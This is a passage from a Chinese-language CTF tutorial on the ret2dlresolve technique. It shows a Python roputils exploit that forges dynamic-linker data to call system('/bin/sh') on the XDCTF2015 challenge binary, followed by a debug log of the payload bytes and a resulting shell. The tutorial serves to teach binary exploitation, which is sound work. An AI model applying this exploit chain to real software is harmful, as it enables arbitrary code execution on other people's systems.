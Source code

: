 ```python
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```

关于dl_resolve_call与dl_resolve_data的具体细节请参考roputils.py的源码，比较容易理解，需要注意的是，dl_resolve执行完之后也是需要有对应的返回地址的。

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python roptool.py                       
[+] Starting local process './main': pid 6114
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x94 bytes:
    00000000  46 4c 68 78  52 36 67 6e  65 47 53 58  71 77 51 49  │FLhx│R6gn│eGSX│qwQI│
    00000010  32 43 6c 49  77 76 51 33  47 49 4a 59  50 74 6c 38  │2ClI│wvQ3│GIJY│Ptl8│
    00000020  57 54 68 4a  63 48 39 62  46 55 52 58  50 73 38 64  │WThJ│cH9b│FURX│Ps8d│
    00000030  72 4c 38 63  50 79 37 73  55 45 7a 32  6f 59 5a 42  │rL8c│Py7s│UEz2│oYZB│
    00000040  76 59 32 43  74 75 77 6f  70 56 61 44  6a 73 35 6b  │vY2C│tuwo│pVaD│js5k│
    00000050  41 77 78 77  49 72 7a 49  70 4d 31 67  52 6f 44 6f  │Awxw│IrzI│pM1g│RoDo│
    00000060  43 44 43 6e  45 31 50 48  53 73 64 30  6d 54 7a 5a  │CDCn│E1PH│Ssd0│mTzZ│
    00000070  a0 83 04 08  19 86 04 08  00 00 00 00  40 a0 04 08  │····│····│····│@···│
    00000080  64 00 00 00  80 83 04 08  28 1d 00 00  79 83 04 08  │d···│····│(···│y···│
    00000090  40 a0 04 08                                         │@···││
    00000094
[DEBUG] Sent 0x64 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  73 52 46 66  57 43 59 52  │/bin│/sh·│sRFf│WCYR│
    00000010  66 4c 35 52  78 49 4c 53  54 a0 04 08  07 e9 01 00  │fL5R│xILS│T···│····│
    00000020  6e 6b 45 32  52 76 73 6c  00 1e 00 00  00 00 00 00  │nkE2│Rvsl│····│····│
    00000030  00 00 00 00  12 00 00 00  73 79 73 74  65 6d 00 74  │····│····│syst│em·t│
    00000040  5a 4f 4e 6c  6c 73 4b 5a  76 53 48 6e  38 37 49 47  │ZONl│lsKZ│vSHn│87IG│
    00000050  69 49 52 6c  50 44 38 67  45 77 75 6c  72 47 6f 67  │iIRl│PD8g│Ewul│rGog│
    00000060  55 41 52 4f                                         │UARO││
    00000064
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x8d bytes:
    'core\t     main    roptool.py   roputils.pyc\tstage2.py  stage4.py  stage6.py\n'
    '__init__.py  main.c  roputils.py  stage1.py\tstage3.py  stage5.py\n'
core         main    roptool.py   roputils.pyc    stage2.py  stage4.py  stage6.py
__init__.py  main.c  roputils.py  stage1.py    stage3.py  stage5.py

```
